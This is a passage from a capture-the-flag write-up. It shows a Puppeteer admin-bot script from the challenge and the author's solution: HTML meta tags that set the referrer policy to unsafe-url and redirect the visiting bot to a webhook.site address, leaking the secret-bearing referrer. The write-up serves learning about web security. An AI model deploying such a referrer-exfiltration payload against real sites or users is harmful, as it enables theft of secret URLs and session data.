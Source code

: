 ``` js
    })


    try {
        let page = await browser.newPage()

        //login
        await page.goto(LOGIN_URL)

        await page.waitForSelector('#username')
        await page.focus('#username')
        await page.keyboard.type('admin', { delay: 10 })
        await page.focus('#password')
        await page.keyboard.type(ADMIN_PASSWORD, { delay: 10 })

        await new Promise(resolve => setTimeout(resolve, 300))
        await page.click('#submit')
        await new Promise(resolve => setTimeout(resolve, 300))

        //await page.waitForNavigation({ waitUntil: 'networkidle2' })
        console.log(await page.cookies())

        // visit URL after auth
        await page.goto(url, { timeout: 5000 })
        await new Promise(resolve => setTimeout(resolve, 2000))

        // logout
        await page.click('#logout')
        await new Promise(resolve => setTimeout(resolve, 2000))

        // close browser
        await page.close()
        await browser.close()
    } catch (e) {
        console.log(e)
        await browser.close()
        //throw (e)
    }

}
```

The last step was strange to me when I was looking at it, which was clicking the logout button. I was wondering why I had to click that, but I found out later that it was also one of the keys.

When I was solving it, I thought it might be related to the referrer policy, but using `<iframe referrerPolicy="unsafe-url"></iframe>` didn't seem to work.

The answer is indeed related to this, but it's like this:

``` html
<meta name="referrer" content="unsafe-url" />
<meta http-equiv="refresh" content="3;url=https://webhook.site/d485f13a-fd8b-4cfd-ad13-63d9b0f1f5ef" />
```
